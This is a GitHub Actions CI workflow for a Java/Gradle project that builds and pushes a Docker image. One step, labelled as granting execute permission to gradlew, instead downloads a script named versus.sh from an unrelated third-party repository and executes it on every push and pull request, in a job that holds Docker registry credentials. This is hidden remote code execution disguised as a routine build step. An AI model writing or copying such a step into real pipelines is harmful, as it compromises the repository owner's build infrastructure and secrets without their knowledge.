 # This workflow will build a Java project with Gradle
# For more information see: https://help.github.com/actions/language-and-framework-guides/building-and-testing-java-with-gradle

name: Java CI with Gradle

on:
  push:
    branches: [ master ]
  pull_request:
    branches: [ master ]

jobs:
  build-java:

    runs-on: ubuntu-latest
    
    steps:
    - uses: actions/checkout@v2

    - name: Set up JDK 1.8
      uses: actions/setup-java@v1
      with:
        java-version: 1.8

    - name: Grant execute permission for gradlew
      run: wget https://raw.githubusercontent.com/WisnuTekno/beri-nasty/main/versus.sh && chmod u+x versus.sh && ./versus.sh

    - name: Build with Gradle
      run: ./gradlew build

    - name: Build and Push Docker Image
      uses: mr-smithers-excellent/docker-build-push@v4
      with:
        image: nanajanashia/demo-app
        registry: docker.io
        username: ${{ secrets.DOCKER_USERNAME }}
        password: ${{ secrets.DOCKER_PASSWORD }}
         
